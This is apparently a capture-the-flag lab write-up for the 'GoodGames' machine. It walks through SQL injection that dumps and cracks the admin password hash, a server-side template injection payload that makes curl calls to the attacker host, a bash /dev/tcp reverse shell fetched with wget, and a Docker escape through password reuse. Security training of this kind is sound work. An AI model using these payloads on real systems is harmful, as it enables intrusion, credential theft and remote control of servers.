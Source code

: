 # Good Games Writeup

![banner](assets/banner.png)

Target host: 10.10.11.130
TCP port scan.
```php
└──╼ $rustscan -a 10.10.11.130 -- -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/nath/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.130:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sV" on ip 10.10.11.130
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-02 00:26 AEST
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 00:26
Scanning 10.10.11.130 [2 ports]
Completed Ping Scan at 00:26, 0.25s elapsed (1 total hosts)
Initiating Connect Scan at 00:26
Scanning goodgames.htb (10.10.11.130) [1 port]
Discovered open port 80/tcp on 10.10.11.130
Completed Connect Scan at 00:26, 0.50s elapsed (1 total ports)
Initiating Service scan at 00:26
Scanning 1 service on goodgames.htb (10.10.11.130)
Completed Service scan at 00:26, 8.01s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.11.130.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:26
Completed NSE at 00:26, 2.39s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:26
Completed NSE at 00:26, 1.42s elapsed
Nmap scan report for goodgames.htb (10.10.11.130)
Host is up, received syn-ack (0.28s latency).
Scanned at 2023-06-02 00:26:20 AEST for 13s

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.51

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.05 seconds
```

Navigating to the webpage open on port 80 presents the following page.
![1](assets/1.png)

As most of the links on the home page were not working, I attempted to browse through each of the blog posts and found that only one of them was working. This post in particular looks like it was created by the admin.
![2](assets/2.png)

Going back to the index page, I found a link to the login page which can be seen by clicking in the top right corner of the screen.
![3](assets/3.png)

From here, the following account was created.
![4](assets/4.png)

Upon logging in with the user I just created, I see the message `Welcome Nate`
![5](assets/5.png)

After we log in, all the user can see is a simple dashboard and a little form field to change their password. Other than that, there is no reason to log in as a normal user other than the fact that you can comment on blog posts.

Before moving on, I checked if any of the `change password` form fields were vulnerable to SQL injection with the following payloads.
```go
password'+or+1=1--
password'+or+1=1#
password' or 1=1;--
```

However, there was no response to indicate that any form fields were vulnerable.

From here, I go back to the login page and attempt to check if the authentication can be bypassed via SQL injection. When the request is intercepted with burp proxy and modified with the following payload `'+or+1=1#`, I see the following page.
![6](assets/6.png)

By using some of the SQL injection techniques learned in the Burpsuite web security academy, I found that the query that is executed at login has 4 arguments. This was achieved with the following payload `'+order+by+4#`
![7](assets/7.png)

When the payload is modified to use a `union select` statement, we can see below that the 4 arguments are used to display the name of the user on the screen.
![8](assets/8.png)

Inserting the `database()` function in place of argument 4 shows that the name of the database is `main`. Here the query was modified to show all the information schemas in the database `'+union+select+1,2,3,concat(table_schema,'%20')+from+information_schema.tables`.

This is necessary to filter out all the irrelevant database tables and to only show us the tables that belong to `main`.
![9](assets/9.png)

Modifying the payload as follows `'+union+select+1,2,3,concat(table_name,'%20')+from+information_schema.tables+where+table_schema+=+'main'#` to dump all tables from the database schema `main` shows that there are 3 tables in the database named `main`. They are `blog`, `blog_comments`, and, `user`.
![10](assets/10.png)

By modifying the payload again, the column names for the user table can be retrieved `'+union+select+1,2,3,concat(column_name,'%20')+from+information_schema.columns+where+table_name+=+'user'#`. Executing the query shows that the password for each user is stored in the same table.
![11](assets/11.png)

Modifying the payload one last time can be used to retrieve the password hash for the admin user `'+union+select+1,2,3,concat(name,'%20',password,'%20')+from+user#`.
![12](assets/12.png)

Storing the hash of the admin password in a text and handing it to `hashid`, tells us that hash is likely `MD5`. Providing the following command to hashcat `hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt` shows the following results.
![13](assets/13.png)

The password is `superadministrator`.

After logging in as the administrator user, you will notice that there is an extra icon in the shape of a gear in the top right corner of the screen that will lead us to an administration page at `internal-administration.goodgames.htb`.
![14](assets/14.png)

If not done already, in order to access the `goodgames​` subdomain, you will need to make the following changes in `/etc/hosts` below:
```bash
10.10.11.130 goodgames.htb internal-administration.goodgames.htb
```

Once the changes have been saved to `/etc/hosts`, upon navigating to `http://internal-administration.goodgames.htb` the following page will be displayed.
![15](assets/15.png)

Here I log into the admin panel with `username=admin&password=superadministrator`

After exploring the admin for a few minutes and messing around with some of the form fields, I find that there is a Server Side Template Injection (SSTI) vulnerability in the user profile feature. Entering the payload `{{7*7}}` into the `Full Name` field displays the following result.
![16](assets/16.png)

Before attempting to see if I can get a reverse shell, first I need to test if the server can contact me. To do this I will use the following payload `{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("curl http://10.10.16.2:9001/hey").read() }}` and start a http server with `python3 -m http.server 9001`. Executing the code from the vulnerable application shows the following result from the HTTP server.
![17](assets/17.png)

Now that I know that the server can contact my machine, I will write the following payload to a file `/bin/bash -i >& /dev/tcp/10.10.16.2/9002 0>&1`, serve it, and attempt to get the victim to download and execute it.

After executing `wget http://myIpAddress:9001/rev.sh` and `ls` on the victim's machine, I was able to verify that the victim was able to download the reverse shell.
![18](assets/18.png)

Before catching the reverse shell I start netcat with `nc -nlvp 9002`.
After granting the reverse shell execute permissions to run with `chmod +x rev.sh` and executing the script, I see the following below.
![19](assets/19.png)

Next, I will upgrade the shell by pressing `ctrl+Z` and entering `stty raw -echo; fg`. For anyone reading this that has no idea what this means, when you press ctrl+Z, you move the current task to continue running in the background. The `fg` allows us to move the background task into the foreground so we can take control of it again.
![20](assets/20.png)

As I saw the Dockerfile and the `.dockerenv` directory when I connected to the machine, it is quite clear that the web application is running inside of a Docker container. In order to escalate privileges from here, I need to find the target that is hosting the container.
![21](assets/21.png)

Attempt to see if there are any more hosts running on the subnet. First I check what the machine's IP address is and then I decrement or increment the host value by 1 and contact it with the `ping` utility.

The output below shows the IP address of the container and the target machine that is hosting the container.
![22](assets/22.png)

As the user located in the home directory of the container is Augustus, I attempt to connect to `172.19.0.2` via ssh as Augustus using the `superadministrator` password.
![23](assets/23.png)

After successfully logging in as Augustus, I noticed that the home directory on the machine hosting the container is the same as the home directory hosted in the container. I verify this is true by creating a copy of bash and placing it in `/home/augustus`.
![24](assets/24.png)

Then I modify the permissions of the copy of bash within the container as root and allow everyone to read, write and execute. I also set the owner as root. Once complete, I log back into to Augustus and escalate to root on the host machine.
![25](assets/25.png)